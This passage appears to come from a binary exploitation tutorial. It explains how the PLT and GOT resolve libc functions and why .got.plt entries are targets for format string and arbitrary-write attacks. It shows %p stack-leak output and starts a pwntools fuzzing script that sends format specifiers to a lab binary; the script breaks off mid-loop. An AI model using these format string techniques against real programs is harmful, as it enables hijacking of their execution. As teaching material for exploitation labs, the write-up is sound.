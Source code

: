 We can see a call to `fgets@plt` will result immediately in a `jmp` to the `fgets()` address loaded via dynamic linking from `libc`.&#x20;

So, how did the `.got.plt` get updated? This is why the pointer in the beginning of the GOT was passed as an argument back to `ld.so` and `ld.so` did black magic and inserted the proper address into GOT to replace the previous address which was pointed to the next instruction in the PLT.

#### Okay great, but how can we exploit this?

<mark style="color:yellow;">Since our ultimate goal is to take control of the flow of execution of the program</mark>, we need to remember that the `.got.plt` <mark style="color:yellow;">section is a giant array of function pointers</mark>.

So, could we overwrite one of these and control execution from there?

Any memory corruption primitive that will let you write to an arbitrary address will allow you to overwrite a GOT entry.

Ultimately, `.got.plt` is very <mark style="color:yellow;">attractive for format string bugs and other arbitrary write exploits</mark>.

When your target binary lacks PIE, this will cause the `.got.plt` to be loaded at a fixed address.&#x20;

<mark style="color:yellow;">Enabling FULL RELRO will protect against these kinds of attack by preventing writing to the GOT, but will severely impact performance</mark>.&#x20;

## Exploitation

Printing values off of the stack with the format string bug:

```
%p %p %p
0x12c 0xf7f80620 0x80491b1
%s
Segmentation fault
```

**Why did this happen?**

We are able to print pointers from the stack by using `%p` as the format specifier.

However, when we try to print a whatever address `0x12c` is pointing to as a string using `%`s, it is going to result in a segmentation fault because the address `0x12c` is pointing to is NOT a valid location in memory (not in scope).

### Fuzzing `printf()` Format Vulnerability

Read more about Format String Vulnerabilities here:&#x20;

{% embed url="https://axcheron.github.io/exploit-101-format-strings/" %}

`fuzz.py`:

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./got_overwrite', checksec=False)

# Create process (level used to reduce noise)
p = process(level='error')

# Let's fuzz x values
for i in range(100):
    try:
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendline('%{}$x'.format(i).encode())
        # Receive the response
```